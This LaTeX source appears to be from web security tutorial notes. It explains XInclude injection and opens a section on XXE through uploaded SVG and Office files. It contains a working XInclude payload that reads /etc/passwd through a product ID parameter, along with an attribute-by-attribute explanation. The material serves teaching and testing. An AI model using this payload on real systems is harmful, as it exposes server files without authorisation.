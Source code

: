 \documentclass{article}
\begin{document}
\begin{warningbox}
You can place an XInclude attack within \textbf{any data value} in an XML document. This means the attack can be performed when you only control a single item of data embedded into a server-side XML document.
\end{warningbox}

\subsubsection{XInclude Attack Payload}
To perform an XInclude attack, reference the XInclude namespace and provide the path to the file you wish to include: eg. Set the value of the productId parameter to: 

\begin{lstlisting}[language=XML]
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
\end{lstlisting}

\begin{codebox}
\begin{itemize}
    \item \texttt{xmlns:xi="http://www.w3.org/2001/XInclude"} - Declares the XInclude namespace
    \item \texttt{parse="text"} - Tells the parser to include the file as raw text
    \item \texttt{href="file:///etc/passwd"} - Specifies the local file to read
\end{itemize}
\end{codebox}

\subsection{XXE Attacks via File Upload}

\subsubsection{The Vector}
Some applications allow users to upload files which are then processed server-side. Many common file formats use XML or contain XML subcomponents.

\begin{table}[h]
\centering
\begin{tabular}{|l|l|}
\hline
\textbf{Format} & \textbf{XML-Based?} \\
\hline
SVG (Images) & Yes - Pure XML \\
\hline
DOCX (Word) & Yes - ZIP containing XML files \\
\hline
XLSX (Excel) & Yes - ZIP containing XML files \\
\hline
PPTX (PowerPoint) & Yes - ZIP containing XML files \\
\hline
PNG/JPEG & No - But libraries may support SVG \\
\hline
\end{tabular}
\end{table}
\end{document}
